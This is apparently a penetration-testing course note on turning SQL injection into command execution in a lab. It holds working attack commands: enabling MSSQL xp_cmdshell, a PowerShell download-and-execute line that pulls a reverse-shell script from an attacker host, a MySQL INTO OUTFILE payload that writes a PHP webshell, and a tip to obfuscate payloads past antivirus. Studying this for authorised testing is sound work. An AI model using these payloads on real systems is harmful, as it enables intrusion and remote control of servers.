

---
tags:
  - phase/exploitation
---

# Manual code execution

10.3.1. Manual code execution
Depending on the underlying database system we are targeting, we need to adapt our strategy to obtain code execution.

In Microsoft SQL Server, the xp_cmdshell function takes a string and passes it to a command shell for execution. The function returns any output as rows of text. The function is disabled by default and once enabled, it must be called with the EXECUTE keyword instead of SELECT.

In our database, the Administrator user already has the appropriate permissions. Let's enable xp_cmdshell by simulating an SQL injection via the impacket-mssqlclient tool.

```sh
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

After logging in from our Kali VM to the MSSQL instance, we can enable show advanced options by setting its value to 1, then applying the changes to the running configuration via the RECONFIGURE statement. Next, we'll enable xp_cmdshell and apply the configuration again using RECONFIGURE.

With this feature enabled, we can execute any Windows shell command through the EXECUTE statement followed by the feature name.

> [!example] Running commands via xp_cmdshell
> With the feature enabled, run any Windows command with `EXECUTE xp_cmdshell '<cmd>';`. For example `EXECUTE xp_cmdshell 'whoami';` returns the service account:
> ```
> nt service\mssql$sqlexpress
> ```
> From here you can upgrade the SQL shell to a full reverse shell.

> [!example] Upgrading xp_cmdshell to an interactive reverse shell
> `xp_cmdshell` output is one command at a time with no interactivity — pull down and run a PowerShell reverse shell (e.g. Nishang's `Invoke-PowerShellTcp.ps1` or Powercat) instead:
> ```sh
> # 1. On Kali: host the script and start a listener (two terminals)
> sudo python3 -m http.server 80
> nc -lvnp 4444
> ```
> ```sql
> -- 2. In the mssqlclient session: pull the script and invoke a reverse connection
> EXECUTE xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://<KALI_IP>/Invoke-PowerShellTcp.ps1'')"';
> EXECUTE xp_cmdshell 'powershell -c "Invoke-PowerShellTcp -Reverse -IPAddress <KALI_IP> -Port 4444"';
> ```
> A `GET /Invoke-PowerShellTcp.ps1 200` on the HTTP server confirms the target fetched it; the shell then lands in your `nc` listener.

> [!danger] Nothing connects back on the listener
> - **Start the listener *before* triggering the `xp_cmdshell` payload** — a connection attempt with nothing listening fails silently and you won't get a retry.
> - `OSError: [Errno 98] Address already in use` when starting `python3 -m http.server 80` or a stale `nc` on your chosen port → something (often a previous listener you forgot to close) already owns it:
>   ```bash
>   sudo lsof -i :80
>   sudo kill <PID>
>   ```
>   Full details: [[⚠️ Common Errors & Troubleshooting]]
> - Firewall/AV on the Windows target may block the outbound connection or flag the PowerShell script — try a different port (443, 53) or an encoded/obfuscated payload.


## EXECUTE xp_cmdshell 'whoami';

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

<? system($_REQUEST['cmd']); ?>

The PHP system function will parse any statement included in the cmd parameter coming from the client HTTP REQUEST, thus acting like a web-interactive command shell.

> [!info] MySQL has no xp_cmdshell equivalent
> MySQL offers no single function for RCE, but `SELECT ... INTO OUTFILE` can write files to the server's disk. The target path must be writable by the OS user running MySQL. We extend the earlier UNION payload to write a webshell.


> [!example] Writing the webshell via INTO OUTFILE
> Use UNION SELECT to place a one-line PHP shell in the first column and save it to a writable, web-served folder:
> ```sql
> ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
> ```
> The resulting `webshell.php` runs whatever you pass in the `cmd` parameter, acting as a web-interactive command shell.


> [!warning] INTO OUTFILE fails with "The MySQL server is running with the --secure-file-priv option"
> `secure_file_priv` restricts where `SELECT ... INTO OUTFILE` can write. Check it first if you have any other query primitive (error-based, a separate admin login, etc.):
> ```sql
> SHOW VARIABLES LIKE 'secure_file_priv';
> ```
> - Empty string → no restriction, write anywhere the OS user can.
> - A path (e.g. `/var/lib/mysql-files/`) → you can **only** write inside that directory, which is usually not web-served; you'd need a separate way to reach the file (LFI, another writable+served path).
> - `NULL` → file write is fully disabled; `INTO OUTFILE` cannot be used at all, fall back to `xp_cmdshell`-style RCE if the target is actually MSSQL, or look for another injection point/service.
> This is a global server setting you cannot change via the injection itself — it's set in `my.cnf` and requires a MySQL restart.

> [!info] Ignore the mysqli_fetch_array error
> Submitting the payload in the `search.php` Lookup field throws a `TypeError: mysqli_fetch_array(): Argument #1 ($result) must be of type ...`. This is only about the query's return type and does not prevent the webshell from being written to disk.


> [!example] Confirming the webshell
> Browse to the shell with a command, e.g. `.../tmp/webshell.php?cmd=id`. It returns:
> ```
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> ```
> The shell works, and you're executing commands as `www-data` — the typical Linux web-server user.

## Visual Flow



> [!success] What success looks like
> On MSSQL, after enabling the feature, `EXECUTE xp_cmdshell 'whoami';` returns something like `nt service\mssql$sqlexpress`. On MySQL, the `INTO OUTFILE` UNION writes `webshell.php`, and browsing `.../tmp/webshell.php?cmd=id` returns `uid=33(www-data)` — proof of remote command execution.

> [!danger] Common errors
> - `xp_cmdshell` is "disabled" → you must first run `EXECUTE sp_configure 'show advanced options', 1;` then `RECONFIGURE;` before enabling `xp_cmdshell`; call it with `EXECUTE`, not `SELECT`.
> - `INTO OUTFILE` fails / "can't create/write to file" → the path must be writable by the DB's OS user; use a writable AND web-served folder like `/var/www/html/tmp/`.
> - A `mysqli_fetch_array()` TypeError appears after the OUTFILE payload → that error is about the return type and does not stop the file being written; check if the webshell exists.
> - Quotes inside the PHP payload getting mangled in the form/URL → see [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> There is no single "run a command" SQL function on MySQL like MSSQL's `xp_cmdshell`. Instead you abuse `SELECT ... INTO OUTFILE` to *write a small PHP file to disk*; visiting that file in the browser is what actually runs your commands. The folder must be both writable by the database and reachable over HTTP.

---
%% graph-links %%
## Related
- [[Automating the attack]]
- [[UNION-based payloads]]
- [[Command Injection]]

> [!info] Navigation
> Section: [[SQL Injection Attacks/Manual and automated code execution/_index|Manual and automated code execution]] · Home: [[🏠 Home]]

